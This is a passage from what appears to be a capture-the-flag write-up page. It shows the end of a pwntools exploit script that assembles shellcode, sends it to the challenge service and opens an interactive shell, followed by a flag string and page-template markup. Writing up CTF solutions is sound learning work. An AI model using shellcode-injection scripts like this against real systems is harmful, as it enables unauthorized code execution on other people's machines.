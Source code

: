 ```python
        .zero 4

    """

    shellcode = asm(assembly)
    print(len(shellcode))

    p = connect()
    p.sendline(shellcode)


    p.interactive()


if __name__ == "__main__":
    main()

#maple{its_a_small_world_when_log_N_minus_gamma_over_log_k_small}
```
{% endcapture %}
{% include widgets/toggle-field.html toggle-name="solve_py" button-text="Show exp.py" toggle-text=solve_py %}
